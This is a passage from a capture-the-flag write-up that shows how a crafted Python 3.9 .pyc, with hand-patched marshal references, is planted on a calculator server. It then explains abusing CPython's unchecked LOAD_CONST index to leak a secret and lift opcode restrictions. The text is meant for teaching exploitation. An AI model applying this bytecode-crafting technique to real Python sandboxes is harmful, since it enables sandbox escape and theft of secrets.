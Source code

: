 ```  
```

Apparently those reference were important... anything with that bit set is
stored by marshal into a references list that can be accessed with `TYPE_REF`
(0x72). There are two reference accesses, at 0x45 and 0x4a, both to index 3.
The 4th reference generated in the original pyc is an empty tuple (`a9  00`),
so let's replace those references with new tuples:

```  
[kmh@kmh ti1337]$ hexdump -C __pycache__/pwn.cpython-39.pyc  
00000000  61 0d 0d 0a 01 00 00 00  18 2f 08 23 4b 3b 38 00  |a......../.#K;8.|  
00000010  63 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |c...............|  
00000020  00 01 00 00 00 40 00 00  00 73 08 00 00 00 64 00
|[email protected].|  
00000030  5a 00 64 01 53 00 29 02  69 01 00 00 00 4e 29 01  |Z.d.S.).i....N).|  
00000040  5a 01 61 29 00 29 00 29  00 7a 06 70 77 6e 2e 70  |Z.a).).).z.pwn.p|  
00000050  79 5a 08 3c 6d 6f 64 75  6c 65 3e 01 00 00 00 73  |yZ.<module>....s|  
00000060  00 00 00 00                                       |....|  
00000064  
[kmh@kmh ti1337]$ python3 -c "import pwn; print(pwn.a)"  
1  
```

Perfect. We can now write this to a session file on the calculator server,
import it, and, by modifying `co_code`, execute arbitrary bytecode.

## Unrestricted bytecode execution

Our bytecode is still limited by the restrictions in the patch. ~~If we want
to do anything useful, like the read the flag, we'll need to either use memory
corruption in the Python interpreter or trigger one of the conditions outlined
in the analysis phase.~~ (I have been proven wrong by justCatTheFish. We'll
carry on regardless.) Both approaches could use the same building blocks, but
the second is much easier so we'll go with that. The basic premise is that the
CPython interpreter (understandably) does very few bounds checks. For example,
look at the `LOAD_CONST`
[implementation](https://github.com/python/cpython/blob/v3.9.1/Python/ceval.c#L1487-L1493):

```c  
#define PyTuple_GET_ITEM(op, i) (_PyTuple_CAST(op)->ob_item[i])  
...  
#define GETITEM(v, i) PyTuple_GET_ITEM((PyTupleObject *)(v), (i))  
...  
case TARGET(LOAD_CONST): {  
   PREDICTED(LOAD_CONST);  
   PyObject *value = GETITEM(consts, oparg);  
   Py_INCREF(value);  
   PUSH(value);  
   FAST_DISPATCH();  
}  
```

`oparg` is read directly from the code object, which we control through the
pyc, so we can theoretically load any object with a pointer in memory if we
know the offset from the `consts` array. `FROZEN_SECRET` is stored inside
`PyUnicodeObject`s in frozen code objects (see patch.diff). If we load one of
those and leak it with `PRINT_VALUE` (the opcode the Python REPL uses for
printing values), we can use it as the `co_filename` property in the
marshalled code object of our pyc and gain access to every opcode.
